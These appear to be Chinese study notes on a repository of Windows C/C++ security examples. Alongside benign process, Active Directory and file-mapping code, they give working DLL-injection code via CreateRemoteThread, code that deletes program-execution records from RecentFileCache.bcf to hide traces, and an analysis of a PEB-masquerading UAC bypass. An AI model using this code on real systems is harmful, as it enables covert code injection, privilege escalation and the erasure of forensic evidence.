



概述：3gstudent/Homework-of-C-Language: C/C++ code examples of my blog. 仓库学习记录
[toc]
0x01 CheckCriticalProess
说明: 检查进程是不是关键进程
相关链接：
windows关键进程列表：
- 内核的系统进程（NTOSKrnl.exe）
- 会话管理器子系统（SMSS.exe）
- 客户端服务器运行时子系统（CSRSS.exe）
- Windows登录（WinLogon.exe）
- Windows Init（WinInit.exe）
- 仅适用于RDP的 Windows登录用户界面主机（LogonUI.exe）
- 本地安全机构进程（lsass.exe）
- 服务控制管理器（Services.exe）
- 使用RPCSS或Dcom / PnP的 服务主机（svchost.exe）
- 桌面窗口管理器（DWM.exe）
- 加上其他可选流程，如性能监控 或Internet Information Server（ISS）
步骤
- 获取进程 PID
- 通过 PID 打开进程
- 获取 ntdll.dll 中的导出函数
NtQueryInformationProcess - 通过
NtQueryInformationProcess获取ProcessBreakOnTermination的值
代码说明
主要通过 ntdll 中的接口 NtQueryInformationProcess 获取 ProcessBreakOnTermination 的值。从 windows 8.1 开始可以使用 IsProcessCritical 来判断。
status = NtQueryInformationProcess(hProcess, ProcessBreakOnTermination, &breakOnTermination, sizeof(ULONG), NULL);
if (status < 0)
printf("[!]NtQueryInformationProcess error\n");
if (breakOnTermination == 1)
printf("[+]The process is critical\n");
else
printf("[!]The process is not critical\n");0x02 CheckUserBadPwdPolicy
说明：获取域内用户的 badPasswordTime 和 badPwdCount 属性
相关链接：
- ADsOpenObject 函数 (adshlp.h) - Win32 apps | Microsoft Learn 该函数用户绑定到 ADSI 对象，但如果传入的用户名和密码均为空，则会使用运行程序的用户账户上线文进行绑定。
关键代码
HRESULT FindUsers(IDirectorySearch* pContainerToSearch, //IDirectorySearch pointer to Partitions container.
LPOLESTR szFilter, //Filter for finding specific crossrefs.
//NULL returns all attributeSchema objects.
LPOLESTR* pszPropertiesToReturn, //Properties to return for crossRef objects found
//NULL returns all set properties.
unsigned long ulNumPropsToReturn // Number of property strings in pszPropertiesToReturn
)
{
if (!pContainerToSearch)
return E_POINTER;
//Create search filter
LPOLESTR pszSearchFilter = new OLECHAR[MAX_PATH * 2];
if (!pszSearchFilter)
return E_OUTOFMEMORY;
wchar_t szFormat[] = L"(&(objectClass=user)(objectCategory=person)%s)";
// Check the buffer first
if (IS_BUFFER_ENOUGH(MAX_PATH * 2, szFormat, szFilter) > 0)
{
//Add the filter.
swprintf_s(pszSearchFilter, MAX_PATH * 2, szFormat, szFilter);
}
else
{
wprintf(L"The filter is too large for buffer, aborting...");
delete[] pszSearchFilter;
return FALSE;
}
//Specify subtree search
ADS_SEARCHPREF_INFO SearchPrefs;
SearchPrefs.dwSearchPref = ADS_SEARCHPREF_SEARCH_SCOPE;
SearchPrefs.vValue.dwType = ADSTYPE_INTEGER;
SearchPrefs.vValue.Integer = ADS_SCOPE_SUBTREE;
DWORD dwNumPrefs = 1;
// COL for iterations
LPOLESTR pszColumn = NULL;
ADS_SEARCH_COLUMN col;
HRESULT hr;
// Interface Pointers
IADs* pObj = NULL;
IADs* pIADs = NULL;
// Handle used for searching
ADS_SEARCH_HANDLE hSearch = NULL;
// Set the search preference
hr = pContainerToSearch->SetSearchPreference(&SearchPrefs, dwNumPrefs);
if (FAILED(hr))
{
delete[] pszSearchFilter;
return hr;
}
LPOLESTR pszBool = NULL;
DWORD dwBool;
PSID pObjectSID = NULL;
LPOLESTR szSID = NULL;
LPOLESTR szDSGUID = new WCHAR[39];
LPGUID pObjectGUID = NULL;
FILETIME filetime;
SYSTEMTIME systemtime;
DATE date;
VARIANT varDate;
LARGE_INTEGER liValue;
LPOLESTR* pszPropertyList = NULL;
LPOLESTR pszNonVerboseList[] = { L"name",L"distinguishedName" };
unsigned long ulNonVbPropsCount = 2;
int iCount = 0;
DWORD x = 0L;
if (!pszPropertiesToReturn)
{
//Return all properties.
hr = pContainerToSearch->ExecuteSearch(pszSearchFilter,
NULL,
-1L,
&hSearch
);
}
else
{
//specified subset.
pszPropertyList = pszPropertiesToReturn;
//Return specified properties
hr = pContainerToSearch->ExecuteSearch(pszSearchFilter,
pszPropertyList,
sizeof(pszPropertyList) / sizeof(LPOLESTR),
&hSearch
);
}
if (SUCCEEDED(hr))
{
// Call IDirectorySearch::GetNextRow() to retrieve the next row
//of data
hr = pContainerToSearch->GetFirstRow(hSearch);
if (SUCCEEDED(hr))
{
while (hr != S_ADS_NOMORE_ROWS)
{
//Keep track of count.
iCount++;
wprintf(L"----------------------------------\n");
// loop through the array of passed column names,
// print the data for each column
while (pContainerToSearch->GetNextColumnName(hSearch, &pszColumn) != S_ADS_NOMORE_COLUMNS)
{
hr = pContainerToSearch->GetColumn(hSearch, pszColumn, &col);
if (SUCCEEDED(hr))
{
// Print the data for the column and free the column
if ((0 == wcscmp(L"name", col.pszAttrName)) |
(0 == wcscmp(L"badPasswordTime", col.pszAttrName)) ||
(0 == wcscmp(L"badPwdCount", col.pszAttrName))
)
{
// Get the data for this column
wprintf(L"%s:", col.pszAttrName);
switch (col.dwADsType)
{
case ADSTYPE_DN_STRING:
case ADSTYPE_CASE_EXACT_STRING:
case ADSTYPE_CASE_IGNORE_STRING:
case ADSTYPE_PRINTABLE_STRING:
case ADSTYPE_NUMERIC_STRING:
case ADSTYPE_TYPEDNAME:
case ADSTYPE_FAXNUMBER:
case ADSTYPE_PATH:
case ADSTYPE_OBJECT_CLASS:
for (x = 0; x < col.dwNumValues; x++)
{
wprintf(L" %s\r\n", col.pADsValues[x].CaseIgnoreString);
}
break;
case ADSTYPE_BOOLEAN:
case ADSTYPE_INTEGER:
for (x = 0; x < col.dwNumValues; x++)
{
wprintf(L" %d\r\n", col.pADsValues[x].Integer);
}
break;
case ADSTYPE_OCTET_STRING:
case ADSTYPE_UTC_TIME:
case ADSTYPE_LARGE_INTEGER:
for (x = 0; x < col.dwNumValues; x++)
{
liValue = col.pADsValues[x].LargeInteger;
filetime.dwLowDateTime = liValue.LowPart;
filetime.dwHighDateTime = liValue.HighPart;
if ((filetime.dwHighDateTime == 0) && (filetime.dwLowDateTime == 0))
{
wprintf(L" No value set.\n");
}
else
{
//Check for properties of type LargeInteger that represent time
//if TRUE, then convert to variant time.
if (0 == wcscmp(L"badPasswordTime", col.pszAttrName))
{
//Handle special case for Never Expires where low part is -1
if (filetime.dwLowDateTime == -1)
{
wprintf(L" Never Expires.\n");
}
else
{
if (FileTimeToLocalFileTime(&filetime, &filetime) != 0)
{
if (FileTimeToSystemTime(&filetime,
&systemtime) != 0)
{
if (SystemTimeToVariantTime(&systemtime,
&date) != 0)
{
//Pack in variant.vt
varDate.vt = VT_DATE;
varDate.date = date;
VariantChangeType(&varDate, &varDate, VARIANT_NOVALUEPROP, VT_BSTR);
wprintf(L" %s\r\n", varDate.bstrVal);
VariantClear(&varDate);
}
else
{
wprintf(L" FileTimeToVariantTime failed\n");
}
}
else
{
wprintf(L" FileTimeToSystemTime failed\n");
}
}
else
{
wprintf(L" FileTimeToLocalFileTime failed\n");
}
}
}
else
{
//Print the LargeInteger.
wprintf(L" high: %d low: %d\r\n", filetime.dwHighDateTime, filetime.dwLowDateTime);
}
}
}
break;
case ADSTYPE_NT_SECURITY_DESCRIPTOR:
for (x = 0; x < col.dwNumValues; x++)
{
wprintf(L" Security descriptor.\n");
}
break;
default:
wprintf(L"Unknown type %d.\n", col.dwADsType);
}
}
pContainerToSearch->FreeColumn(&col);
}
FreeADsMem(pszColumn);
}
//Get the next row
hr = pContainerToSearch->GetNextRow(hSearch);
}
}
// Close the search handle to clean up
pContainerToSearch->CloseSearchHandle(hSearch);
}
if (SUCCEEDED(hr) && 0 == iCount)
hr = S_FALSE;
delete[] pszSearchFilter;
return hr;
}0x03 FileMapping
说明：创建文件映射以共享数据
CreateFileMapping
说明：创建文件映射
步骤
-
初始化安全描述符
SECURITY_ATTRIBUTES，该安全描述符描述了子进程是否可以继承当前句柄。结构体如下所示：cpptypedef struct _SECURITY_ATTRIBUTES { DWORD nLength; LPVOID lpSecurityDescriptor; BOOL bInheritHandle; } SECURITY_ATTRIBUTES, *PSECURITY_ATTRIBUTES, *LPSECURITY_ATTRIBUTES;- nLength: 当前结构大小
- lpSecurityDescription: 指向
SECURITY_DESCRIPTOR的指针，该结构保存了查询对象的安全状态。 - bInheritHandle： 创建新进程时是否继承当前句柄，默认为 FALSE
-
调用
CreateFileMapping为指定文件创建或打开命名或未命名的文件映射对象。 -
调用
MapViewOfFile，创建文件映射的视图到进程内存地址的映射，该函数会返回映射在进程空间的内存地址Address -
写入数据到步骤2返回的Address中
CreateFileMapping创建"Global\*"前缀的对象时，需要管理员权限。不需要管理员权限情况下可以使用Local\*前缀来创建对象。
主要代码
创建安全描述符
PSECURITY_DESCRIPTOR pSec = (PSECURITY_DESCRIPTOR)LocalAlloc(LMEM_FIXED, SECURITY_DESCRIPTOR_MIN_LENGTH);
if (!pSec)
{
return GetLastError();
}
if (!InitializeSecurityDescriptor(pSec, SECURITY_DESCRIPTOR_REVISION))
{
LocalFree(pSec);
return GetLastError();
}
if (!SetSecurityDescriptorDacl(pSec, TRUE, NULL, TRUE))
{
LocalFree(pSec);
return GetLastError();
}
SECURITY_ATTRIBUTES attr;
attr.bInheritHandle = FALSE;
attr.lpSecurityDescriptor = pSec;
attr.nLength = sizeof(SECURITY_ATTRIBUTES);
printf("Done\n");创建文件映射到内存的映射，并写入数据
HANDLE hMapFile1 = CreateFileMapping(INVALID_HANDLE_VALUE, &attr, PAGE_READWRITE, 0, BUF_SIZE, szName1);
if (hMapFile1 == NULL)
{
printf("\n[!]Could not create file mapping object1 (%d).\n", GetLastError());
return 0;
}
pBuf = (char*)MapViewOfFile(hMapFile1, FILE_MAP_ALL_ACCESS, 0, 0, BUF_SIZE);
if (pBuf == NULL)
{
printf("\n[!]Could not map view of file1 (%d).\n", GetLastError());
CloseHandle(hMapFile1);
return 1;
}
CopyMemory((PVOID)pBuf, argv[1], strlen(argv[1]));OpenFileMapping
说明：打开文件映射并读取文件映射中的数据。
步骤
与创建文件共享不同，打开并读取的步骤相对简单。
- 调用
OpenFileMapping打开一个指定名称的文件共享对象 - 调用
MapViewOfFile获取文件共享的地址 Address - 读取 Address 地址的内容
主要代码
TCHAR szName2[] = L"Global\\SharedMappingObject2";
HANDLE hMapFile1 = OpenFileMapping(FILE_MAP_ALL_ACCESS, FALSE, szName1);
if (hMapFile1 == NULL)
{
printf("[!]Could not create file mapping object (%d).\n", GetLastError());
return 1;
}
pBuf1 = (char*)MapViewOfFile(hMapFile1, FILE_MAP_ALL_ACCESS, 0, 0, BUF_SIZE);
if (pBuf1 == NULL)
{
printf("[!]Could not map view of file (%d).\n", GetLastError());
CloseHandle(hMapFile1);
return 1;
}
MessageBox(NULL, CA2W(pBuf1), TEXT("Process2"), MB_OK);
DWORD EventRecordID = 0;0x04 CreateRemoteThread
主要就是在目标进程中调用 LoadLibrary 和 FreeLibrary 这两个函数。
- CreateRemoteThread
- LoadLibrary
- Freelibrary
- OpenProcess
- VirtualAllocEx
- GetProcAddress
- CreateToolhelp32Snapshot
注意点
卸载dll时需要判断dll是否存在。
需要调用 CreateToolhelp32Snapshot 通过 MODULEENTRY32 枚举进程加载的模块有哪些。MODULEENTRY32 结构体如下所示
- szModule：模块名
- szExePath：模块加载的路径
typedef struct tagMODULEENTRY32
{
DWORD dwSize;
DWORD th32ModuleID; // This module
DWORD th32ProcessID; // owning process
DWORD GlblcntUsage; // Global usage count on the module
DWORD ProccntUsage; // Module usage count in th32ProcessID's context
BYTE * modBaseAddr; // Base address of module in th32ProcessID's context
DWORD modBaseSize; // Size in bytes of module starting at modBaseAddr
HMODULE hModule; // The hModule of this module in th32ProcessID's context
char szModule[MAX_MODULE_NAME32 + 1];
char szExePath[MAX_PATH];
} MODULEENTRY32;
typedef MODULEENTRY32 * PMODULEENTRY32;
typedef MODULEENTRY32 * LPMODULEENTRY32;创建远程线程加载dll
BOOL InjectDll(UINT32 ProcessId, char* DllPath)
{
if (strstr(DllPath, "\\\\") != 0)
{
printf("[!]Wrong Dll path\n");
return FALSE;
}
if (strstr(DllPath, "\\") == 0)
{
printf("[!]Need Dll full path\n");
return FALSE;
}
size_t len = strlen(DllPath) + 1;
LPVOID pThreadData = NULL;
HANDLE ProcessHandle = NULL;
HANDLE hThread = NULL;
BOOL bRet = FALSE;
__try
{
ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
if (ProcessHandle == NULL)
{
printf("[!]OpenProcess error\n");
__leave;
}
pThreadData = VirtualAllocEx(ProcessHandle, NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pThreadData == NULL)
{
CloseHandle(ProcessHandle);
printf("[!]VirtualAllocEx error\n");
__leave;
}
BOOL bWriteOK = WriteProcessMemory(ProcessHandle, pThreadData, DllPath, len, NULL);
if (!bWriteOK)
{
CloseHandle(ProcessHandle);
printf("[!]WriteProcessMemory error\n");
__leave;
}
LPTHREAD_START_ROUTINE LoadLibraryAddress = NULL;
HMODULE Kernel32Module = GetModuleHandle("Kernel32");
LoadLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(Kernel32Module, "LoadLibraryA");
hThread = CreateRemoteThread(ProcessHandle, NULL, 0, LoadLibraryAddress, pThreadData, 0, NULL);
if (hThread == NULL)
{
CloseHandle(ProcessHandle);
printf("[!]CreateRemoteThread error\n");
__leave;
}
WaitForSingleObject(hThread, INFINITE);
bRet = TRUE;
}
__finally
{
if (pThreadData != NULL)
VirtualFreeEx(ProcessHandle, pThreadData, 0, MEM_RELEASE);
if (hThread != NULL)
CloseHandle(hThread);
if (ProcessHandle != NULL)
CloseHandle(ProcessHandle);
}
return bRet;
}创建远程线程卸载dll
BOOL FreeDll(UINT32 ProcessId, char* DllFullPath)
{
BOOL bMore = FALSE, bFound = FALSE;
HANDLE hSnapshot;
HMODULE hModule = NULL;
MODULEENTRY32 me = { sizeof(me) };
BOOL bSuccess = FALSE;
hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, ProcessId);
bMore = Module32First(hSnapshot, &me);
for (; bMore; bMore = Module32Next(hSnapshot, &me)) {
if (!strcmp((LPCTSTR)me.szModule, DllFullPath) || !strcmp((LPCTSTR)me.szExePath, DllFullPath))
{
bFound = TRUE;
break;
}
}
if (!bFound) {
CloseHandle(hSnapshot);
return FALSE;
}
BOOL bRet = FALSE;
HANDLE ProcessHandle = NULL;
__try
{
ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, ProcessId);
if (ProcessHandle == NULL)
{
printf("[!]OpenProcess error\n");
__leave;
}
LPTHREAD_START_ROUTINE FreeLibraryAddress = NULL;
HMODULE Kernel32Module = GetModuleHandle("Kernel32");
FreeLibraryAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(Kernel32Module, "FreeLibrary");
HANDLE hThread = NULL;
hThread = CreateRemoteThread(ProcessHandle, NULL, 0, FreeLibraryAddress, me.modBaseAddr, 0, NULL);
if (hThread == NULL)
{
CloseHandle(ProcessHandle);
printf("[!]CreateRemoteThread error\n");
__leave;
}
WaitForSingleObject(hThread, INFINITE);
bRet = TRUE;
}
__finally
{
if (ProcessHandle != NULL)
CloseHandle(ProcessHandle);
}
return bRet;
}0x05 DeleteRecordFileCache
RecentFileCahce.bcf 文件说明
RecentFileCache.bcf 文件是 win7 操作系统下特有的文件，用来跟踪应用程序与不同可执行文件的兼容性问题，能够记录应用程序执行的历史记录。 win8及以上的系统不支持该文件。
- 文件位置：
C:\Windows\AppCompat\Programs\RecentFileCache.bcf
可以用 winhex 打开查看文件内容，如下所示：

从图中可以看出 RecenFileCache 文件的结构，20字节的文件头，之后就是 4字节长度加文件执行路径这样的格式了。
根据文件结构定义了以下两个结构体
// 文件
typedef struct _BCF_HEADER {
ULONG64 Flag1;
ULONG64 Flag2;
ULONG Unknown;
} BCFHEADER, *PBCFHEADER;typedef struct _BCF_RECORD {
ULONG Size;
} BCFRECORD, *PBCFRECORD;注：
ULONG64为8字节，ULONG为4字节
逐个解析每条记录，通过固定变量Size确定记录长度，进而读取每条记录的内容
读取 RecentFileCache.bcf 文件。
读取 RecentFileCache 文件时，需要注意文件头部分，文件头出的 shellcode 是固定的。
ShellCode 说明
RecentFileCache.bcf 固定的文件头内容
0xFE,0xFF,0xEE,0xFF,0x11,0x22,0x00,0x00,0x03,0x00,0x00,0x00,0x01,0x00,0x00,0x00代码
/**
* @brief 解析 RecentFileCache 文件内容
* @detail
*
* @param mapAddress RecentFileCache文件内容
* @param StopSize 停止读取的位置
* @return void
*/
void ListRecord(PVOID mapAddress, int StopSize)
{
char flag[16] = { 0xFE,0xFF,0xEE,0xFF,0x11,0x22,0x00,0x00,0x03,0x00,0x00,0x00,0x01,0x00,0x00,0x00 };
if (memcmp(mapAddress, flag, 16))
{
printf("[!]Maybe it's not RecentFileCache.bcf");
exit(0);
}
PBCFRECORD currentRecordPtr = NULL;
PBCFRECORD nextRecordPtr = (PBCFRECORD)((PBYTE)mapAddress + 0x14);
int FlagSize = 0x14;
while (FlagSize < StopSize)
{
currentRecordPtr = nextRecordPtr;
FlagSize += nextRecordPtr->Size * 2 + 6;
WCHAR* RecordName = new WCHAR[nextRecordPtr->Size + 1];
memcpy(RecordName, nextRecordPtr + 1, nextRecordPtr->Size * 2 + 2);
printf("%ws\n", RecordName);
nextRecordPtr = (PBCFRECORD)((PBYTE)nextRecordPtr + nextRecordPtr->Size * 2 + 6);
}
}删除记录
删除记录基本同读取逻辑一致。由于 RecentFileCache 是按一定的结构写入的，因此在删除时也需要按相应的结构操作。
即：删除一条记录=删除记录长度和记录的内容
代码
/**
* @brief DeleteRecord
* @detail 删除 RecentFileCache 中的某条记录
*
* @param mapAddress RecentFileCache 文件内容
* @param TempBuf 临时存放数组，用来保存删除节点后的内容
* @param StopSize 停止查找的位置
* @param FileName 删除的节点内容
* @return 返回删除记录后的文件内容
* @retval char*
*/
char* DeleteRecord(PVOID mapAddress, char* TempBuf, int StopSize, WCHAR* FileName)
{
char flag[16] = { 0xFE,0xFF,0xEE,0xFF,0x11,0x22,0x00,0x00,0x03,0x00,0x00,0x00,0x01,0x00,0x00,0x00 };
if (memcmp(mapAddress, flag, 16))
{
printf("[!]Maybe it's not RecentFileCache.bcf");
exit(0);
}
memcpy(TempBuf, mapAddress, 0x14);
PBCFRECORD currentRecordPtr = NULL;
PBCFRECORD nextRecordPtr = (PBCFRECORD)((PBYTE)mapAddress + 0x14);
int DeleteSize = 0;
int FlagSize = 0x14;
while (FlagSize + DeleteSize < StopSize)
{
currentRecordPtr = nextRecordPtr;
WCHAR* RecordName = new WCHAR[nextRecordPtr->Size + 1];
memcpy(RecordName, nextRecordPtr + 1, nextRecordPtr->Size * 2 + 2);
printf("%ws\n", RecordName);
if (wcscmp(RecordName, FileName) == 0)
{
printf("[+]Data found:%ws\n", RecordName);
DeleteSize += nextRecordPtr->Size * 2 + 6;
}
else
{
memcpy(TempBuf + FlagSize, currentRecordPtr, nextRecordPtr->Size * 2 + 6);
FlagSize += nextRecordPtr->Size * 2 + 6;
}
nextRecordPtr = (PBCFRECORD)((PBYTE)nextRecordPtr + nextRecordPtr->Size * 2 + 6);
}
NewSize = FlagSize;
return TempBuf;
}0x06 MasqueradePEBToCopyfile
进程伪装成 explorer.exe 进而达到进提权的目的
参考代码：hfiref0x/UACME at 143ead4db6b57a84478c9883023fbe5d64ac277b
UAC触发流程
在触发 UAC 时，系统会创建一个consent.exe进程，该进程用以确定是否创建管理员进程（通过白名单和用户选择判断），然后creatprocess请求进程,将要请求的进程cmdline和进程路径通过LPC接口传递给appinfo的RAiLuanchAdminProcess函数，该函数首先验证路径是否在白名单中，并将结果传递给consent.exe进程，该进程验证被请求的进程签名以及发起者的权限是否符合要求，然后决定是否弹出UAC框让用户进行确认。这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程
调用说明
修改参数：
接下来需要添加修PEB结构的功能，为了欺骗PSAPI，共需要修改以下位置：
- _RTL_USER_PROCESS_PARAMETERS.ImagePathName
- _RTL_USER_PROCESS_PARAMETERS.CommandLine(可选)
- _LDR_DATA_TABLE_ENTRY.FullDllName
- _LDR_DATA_TABLE_ENTRY.BaseDllName
属性说明：
- FOF_NOCONFIRMATION :不弹出确认框
- FOF_SILENT:不弹框
- FOFX_SHOWELEVATIONPROMPT:需要提升权限
- FOFX_NOCOPYHookS:不使用copy Hooks
- FOFX_REQUIREELEVATION:默认需要提升权限
- FOF_NOERRORUI:报错不弹框
区别
普通进程需要执行两步，伪装进程只需要第二步的提权
- 获取进程权限

- 获取操作权限

调用分析
堆栈
伪装进程调用栈，执行操作的提权最终调用的 combase!CComActivator::StandardCreateInstance，函数原型见后文。但是普通进程在执行操作前需要调用 _CreateElevatedCopyengine 对当前进程先提权。
[0x0] windows_storage!CFileOperation::_PerformProperElevatedOperations + 0x97
[0x1] windows_storage!CFileOperation::_RunElevatedOperation + 0x7b
[0x2] windows_storage!CFileOperation::_ProcessLUAOperations + 0x118056
[0x3] windows_storage!CFileOperation::PrepareAndDoOperations + 0x238
[0x4] windows_storage!CFileOperation::PerformOperations + 0xd4
[0x5] MasqueradePEBtoCopyfile!wmain + 0x365 调用堆栈，由上而下
003a3f43 7c1a jl MasqueradePEBtoCopyfile!wmain+0x36f (003a3f5f)
751b226f e8de620000 call windows_storage!CFileOperation::PrepareAndDoOperations (751b8552)
751b8785 e8810f0000 call windows_storage!CFileOperation::_ProcessLUAOperations (751b970b)
752d175c e88c111a00 call windows_storage!CFileOperation::_RunElevatedOperation (754728ed)
# 这里时获取进程的管理员权限
# 获取当前进程 Elevated
7547291d e826c8ffff call windows_storage!CFileOperation::_GetElevatedOperation (7546f148)
# 如果没有 调用 CoCreateInstanceAsAdmin
75472935 e8e7b9ffff call windows_storage!CFileOperation::_CreateElevatedCopyengine (7546e321)
7546e35f e8722affff call windows_storage!CoCreateInstanceAsAdmin (75460dd6)
75460e82 ff1544bc5e75 call dword ptr [windows_storage!_imp__CoGetObject (755ebc44)]
75472963 e8f5ebffff call windows_storage!CFileOperation::_PerformProperElevatedOperations (7547155d)
# 这里获取当前操作的管理员权限
754715d7 ff15ec5a5e75 call dword ptr [windows_storage!__guard_check_icall_fptr (755e5aec)]
[0x0] combase!ClassicSTAThreadWaitForCall 0xf5d764 0x75e59fe5
[0x1] combase!ThreadSendReceive+0xa8a 0xf5d768 0x75dd77f8
[0x2] combase!CSyncClientCall::SwitchAptAndDispatchCall+0xb16 0xf5d768 0x75dd77f8
[0x3] combase!CSyncClientCall::SendReceive2+0xc05 0xf5d768 0x75dd77f8
[0x4] combase!SyncClientCallRetryContext::SendReceiveWithRetry+0x29 0xf5d948 0x75e5c0a7
[0x5] combase!CSyncClientCall::SendReceiveInRetryContext+0x29 0xf5d948 0x75e5c0a7
[0x6] combase!ClassicSTAThreadSendReceive+0x98 0xf5d948 0x75e5c0a7
[0x7] combase!CSyncClientCall::SendReceive+0x2a7 0xf5da0c 0x75de0468
[0x8] combase!CClientChannel::SendReceive+0x79 0xf5dbf8 0x76516b23
[0x9] combase!NdrExtpProxySendReceive+0xc8 0xf5dbf8 0x76516b23
[0xa] RPCRT4!NdrClientCall2+0x9e3 0xf5dc20 0x75eaeaa0
[0xb] combase!ObjectStublessClient+0x70 0xf5e070 0x75ea6a3f
[0xc] combase!ObjectStubless+0xf 0xf5e090 0x75e113f5
[0xd] combase!CRpcResolver::DelegateActivationToSCM+0x30e 0xf5e0a0 0x75e8c69c
[0xe] combase!CRpcResolver::CreateInstance+0x14 0xf5e1ac 0x75e12d54
[0xf] combase!CClientContextActivator::CreateInstance+0x144 0xf5e1c8 0x75e124d4
[0x10] combase!ActivationPropertiesIn::DelegateCreateInstance+0xc4 0xf5e420 0x75e3a762
[0x11] combase!ICoCreateInstanceEx+0xc12 0xf5e46c 0x75e399d1
[0x12] combase!CComActivator::DoCreateInstance+0x231 0xf5e770 0x75f4bec1
[0x13] combase!CComActivator::StandardCreateInstance+0x81 0xf5e864 0x75ba8686
[0x14] ole32!CLUAMoniker::CreateInstance+0x126 0xf5f0d4 0x63e8f20f
[0x15] comsvcs!CNewMoniker::BindToObject+0x12f 0xf5f114 0x75b869cd
[0x16] ole32!CCompositeMoniker::BindToObject+0x19d 0xf5f190 0x75b84f9e
[0x17] ole32!CoGetObject+0xbe 0xf5f1c4 0x74e70e88
[0x18] windows_storage!CoCreateInstanceAsAdmin+0xb2 0xf5f210 0x74e7e364
[0x19] windows_storage!CFileOperation::_CreateElevatedCopyengine+0x43 0xf5f518 0x74e8293a
[0x1a] windows_storage!CFileOperation::_RunElevatedOperation+0x4d 0xf5f58c 0x74ce1761
[0x1b] windows_storage!CFileOperation::_ProcessLUAOperations+0x118056 0xf5f5c0 0x74bc878a
[0x1c] windows_storage!CFileOperation::PrepareAndDoOperations+0x238 0xf5f614 0x74bc2274
[0x1d] windows_storage!CFileOperation::PerformOperations+0xd4 0xf5f684 0xa03f55
[0x1e] D!wmain+0x365 0xf5f6b4 0xa047fe
[0x1f] MasqueradePEBtoCopyfile!__scrt_wide_environment_policy::initialize_environment+0x2e 0xf5f818 0xa04667
[0x20] MasqueradePEBtoCopyfile!__crt_char_traits<wchar_t>::tcscpy_s<wchar_t * &,unsigned int,wchar_t const * const &>+0x1d7 0xf5f82c 0xa044fd
[0x21] MasqueradePEBtoCopyfile!__crt_char_traits<wchar_t>::tcscpy_s<wchar_t * &,unsigned int,wchar_t const * const &>+0x6d 0xf5f888 0xa04878
[0x22] MasqueradePEBtoCopyfile!wmainCRTStartup+0x8 0xf5f890 0x76cdfcc9
[0x23] KERNEL32!BaseThreadInitThunk+0x19 0xf5f898 0x77607c6e
[0x24] ntdll!__RtlUserThreadStart+0x2f 0xf5f8a8 0x77607c3e
[0x25] ntdll!_RtlUserThreadStart+0x1b 0xf5f904 0x0 _RunElevatedOperation 汇编代码：
主要关注一下几个函数：
- windows_storage!CFileOperation::_GetElevatedOperation (7546f148)
- windows_storage!CFileOperation::_CreateElevatedCopyengine (7546e321)
- windows_storage!CFileOperation::_PerformProperElevatedOperations (7547155d)
windows_storage!CFileOperation::_RunElevatedOperation:
